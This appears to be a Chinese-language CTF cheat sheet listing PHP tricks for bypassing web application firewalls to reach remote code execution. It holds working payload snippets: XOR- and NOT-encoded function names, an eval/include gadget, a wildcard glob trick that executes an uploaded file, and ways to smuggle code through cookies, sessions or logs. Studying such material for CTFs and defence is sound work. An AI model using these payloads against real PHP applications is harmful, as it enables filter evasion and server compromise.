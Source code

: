 tags:: CTF/RCE, CTF/PHP/WAF绕过， CTF/PHP/无字母数字RCE

- `'`
	- `"`
- `base_convert`
	- `chr` 拼接
- 空格和括号
	- `eval('include$_GET[url]?>');`
- hex
	- php的`"`支持转义: `"\x61"`
- 和，或，非等二进制操作
	- 异或
	- `((%fe%fe%fe%fe%fe%fe%fe)^(%8e%96%8e%97%90%98%91))();`
	- 取反
	- `${~'%99%93%9E%98'} # $flag`
	- 可以使用方括号构造数组并取第一个元素的方式绕过空格WAF
		- `[~%8c%86%8c%8b%9a%92][!%FF]`
- `$$`
	- ```php
	  $a = "b"
	  $b = "asd"
	  echo($$a) // 输出asd
	  ```
- 使用不可见字符作为变量名
- glob
	- ```
	  `?><?=`. /???/????????[@-[]`?>`	
	  ```
	- 需要配合文件上传,具体见[[CTF/PHP/无字母数字RCE]]
- #### 从其他地方读取
	- 其他未被过滤的参数(GET 或者 POST)
	- session_id()
	- cookie
	- log
- [[CTF/PHP/无字母数字RCE]]
- [[CTF/PHP/特殊标签]]
- # webshell绕WAF技巧
	- [[CTF/PHP/webshell]]